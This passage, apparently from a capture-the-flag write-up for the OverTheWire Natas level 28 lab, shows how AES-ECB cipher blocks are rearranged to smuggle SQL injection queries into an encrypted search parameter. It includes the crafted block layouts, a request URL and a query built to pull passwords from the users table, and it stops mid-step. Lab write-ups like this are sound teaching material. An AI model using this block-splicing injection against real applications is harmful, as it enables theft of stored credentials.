 We will use SQL query `aaaaaaaaaaSELECT * FROM users WHERE 1 # aaaaa` to fill into cipher from block 4.

```
1be82511a7ba5bfd578c0eef466db59c -> 16 bits start
dc84728fdcf89d93751d10a7c75c8cf2 -> 16 bits start
c0872dee8bc90b1156913b08a223a39e -> 6 bits start + 10 bits 'a'
f79abe47a81b677079ea13336070464a -> SELECT * FROM us (16 chars <-> 16 bits)
b548369a817a2746d70614dc0dcf63d5 -> ers WHERE 1 # aa (16 chars <-> 16 bits, need padding 2 bits 'a')
1f74714d76fcc5d464c6a221e6ed98e4 -> 3 bits 'a' + 13 bits end (need padding 3 bits 'a')
6223a14d9c4291b98775b03fbc73d4ed -> 16 bits end
d8ae51d7da71b2b083d919a0d7b88b98 -> 1 bits end + 15 bits padding
```

We split cipher to get valid SQL query look like that:

```
f79abe47a81b677079ea13336070464a -> SELECT * FROM us (16 chars <-> 16 bits)
b548369a817a2746d70614dc0dcf63d5 -> ers WHERE 1 # aa (16 chars <-> 16 bits, need padding 2 bits 'a')
1f74714d76fcc5d464c6a221e6ed98e4 -> 3 bits 'a' + 13 bits end (need padding 3 bits 'a')
6223a14d9c4291b98775b03fbc73d4ed -> 16 bits end
d8ae51d7da71b2b083d919a0d7b88b98 -> 1 bits end + 15 bits padding
```

Decode cipher: `f79abe47a81b677079ea13336070464ab548369a817a2746d70614dc0dcf63d51f74714d76fcc5d464c6a221e6ed98e46223a14d9c4291b98775b03fbc73d4edd8ae51d7da71b2b083d919a0d7b88b98`

We get base64 url query:
`95q%2BR6gbZ3B56hMzYHBGSrVINpqBeidG1wYU3A3PY9UfdHFNdvzF1GTGoiHm7ZjkYiOhTZxCkbmHdbA%2FvHPU7diuUdfacbKwg9kZoNe4i5g%3D`

Request GET from: `http://natas28.natas.labs.overthewire.org/search.php/?query=95q%2BR6gbZ3B56hMzYHBGSrVINpqBeidG1wYU3A3PY9UfdHFNdvzF1GTGoiHm7ZjkYiOhTZxCkbmHdbA%2FvHPU7diuUdfacbKwg9kZoNe4i5g%3D`, we get response:

```
Notice: Undefined index: joke in /var/www/natas/natas28/search.php on line 92
```

We can see SQL query is working, but we need to change query a bit, look like `aaaaaaaaaaSELECT password AS joke from users WHERE 1 # aaaaaa`

```
1be82511a7ba5bfd578c0eef466db59c -> 16 bits start
dc84728fdcf89d93751d10a7c75c8cf2 -> 16 bits start
c0872dee8bc90b1156913b08a223a39e -> 6 bits start + 10 bits 'a'
5b8ac3d259f2d7ab9ba3fac39824b10a -> SELECT password 
d06f8990367940a4f964783862394d6b -> AS joke from use
c7ddf69db1b142b2caa52da41350d657 -> rs WHERE 1 # aaa
1f74714d76fcc5d464c6a221e6ed98e4 -> 3 bits 'a' + 13 bits end
6223a14d9c4291b98775b03fbc73d4ed -> 16 bits end
d8ae51d7da71b2b083d919a0d7b88b98 -> 1 bits end + 15 bits padding
```

Force split cipher to get valid query:
